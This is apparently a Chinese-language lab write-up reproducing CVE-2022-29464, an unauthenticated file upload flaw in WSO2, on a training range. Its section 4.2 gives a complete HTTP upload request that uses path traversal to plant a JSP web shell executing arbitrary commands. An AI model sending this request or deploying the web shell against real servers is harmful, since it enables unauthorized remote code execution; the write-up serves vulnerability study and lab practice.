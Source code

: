 ```yaml
---
title: CVE-2022-29464【文件上传】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - '文件上传'
---
```


## 1. 漏洞介绍

WSO2文件上传漏洞（CVE-2022-29464）是Orange Tsai发现的WSO2上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意JSP文件在WSO2服务器上获得RCE。

## 2. 漏洞原理

 WSO2的配置文件 WSO2AM_Home\repository\conf\identity\identity.xml中，修饰 /fileupload(.\*) 接口的 secured 属性为 false，这就意味着路由资源访问可以不需要身份验证，从而可以通过构造恶意的post请求包达到恶意jsp文件上传的目的。

## 3. 漏洞 POC

- [Poc/FileUpload/CVE-2022-29464.py at main · wave-to/Poc](https://github.com/wave-to/Poc/blob/main/FileUpload/CVE-2022-29464.py)

## 4. 漏洞复现

### 4.1. POC 上传 wavesky.jsp

启动环境后，直接用 GitHub 下载的 Poc 上传 wavesky.jsp ，之后根据提示访问对应 URL 即可。

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281659633.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281659900.png)

**RCE**

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281700233.png)

### 4.2. 借助 burp suite 上传

burp 抓包构造 post 请求包实现 jsp 上传

```http
POST /fileupload/toolsAny HTTP/2
Host: eci-2zeer2drycfpgmtcc1x8.cloudeci1.ichunqiu.com:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Length: 904
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0


--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/wavesky.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/wavesky.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
       String s = null;
       try {
           Process p = Runtime.getRuntime().exec(cmd,null,null);
          BufferedReader sI = new BufferedReader(new
 InputStreamReader(p.getInputStream()));
           while((s = sI.readLine()) != null) { output += s+"</br>"; }
         }  catch(IOException e) {   e.printStackTrace();   }
    }
 %>
         <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

 注意，要将 Host 和 Accept 字段的值换成自己环境抓到的。

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281700236.png)

- 访问 https://xxxxx/authenticationendpoint/wavesky.jsp  flag 获取同前。
